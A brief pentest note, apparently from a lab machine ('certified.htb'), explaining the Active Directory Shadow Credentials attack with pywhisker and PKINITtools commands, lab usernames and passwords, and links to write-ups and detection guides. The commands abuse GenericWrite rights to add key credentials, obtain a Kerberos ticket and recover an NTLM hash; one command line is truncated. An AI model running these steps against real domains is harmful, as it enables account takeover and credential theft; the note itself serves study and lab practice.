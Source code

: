 +++
title = "Pentest - Active Directory - Shadow Credentials"
author = ["svejk"]
tags = ["kerberos"]
draft = false
+++

## Shadow Credentials {#shadow-credentials}

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

```shell { linenos=true, linenostart=1 }
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add
```

The output is a PFX cert that can be used to authenticate as the user. Get a `TGT` for the user with [PKINITtools](https://github.com/dirkjanm/PKINITtools):

```shell { linenos=true, linenostart=1 }
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
```

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with `getnthash.py` from the same toolkit to get the NTLM hash of the management_svc user.

[dsinternals](https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/)
[Detecting shadow credentials](https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/)
[hacker recipes](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
[hackingarticles](https://www.hackingarticles.in/shadow-credentials-attack/)
[medium](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
